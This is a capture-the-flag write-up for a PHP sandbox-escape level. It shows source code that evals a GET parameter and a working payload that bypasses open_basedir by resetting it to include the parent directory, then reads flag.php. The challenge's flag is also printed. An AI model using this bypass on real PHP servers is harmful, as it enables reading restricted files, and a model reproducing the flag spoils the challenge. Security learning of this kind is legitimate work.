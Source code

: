 ```yaml
---
layout: default
title: level31
---
```


In this challenge, we need to escape from the sandbox, this is the source code:
```php
 <?php
ini_set('open_basedir', '/sandbox');
chdir('/sandbox');

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

if (isset ($_GET['c'])) {
    die (eval ($_GET['c']));
}
?>
```

The trick is going to `/tmp` dir, which should exist in the `sandbox`, because it exists in every basedir.
I used this paper https://flagbot.ch/posts/phuck3/.

Then, we will "tighten" the sandbox, by extending it to be also in `../`, because it still in the sandbox:

![explain](./images/level31_explain.png)

Notice he created new dir by using `mkdir`, but we can't use that, because it's restricted, so we use the trick of `/tmp`.

This would be our final payload:
```php
chdir('tmp/');
ini_set("open_basedir","/sandbox:../");
chdir("../");
chdir("../");
echo file_get_contents("flag.php");
```

check in the source code, this is in comment:

![FINAL](./images/level31_FINAL.png)

**Flag:** ***`WEBSEC{Cheers_to_Blaklis_for_his_phuck3_challenge_for_Insomnihack_2019}`*** 
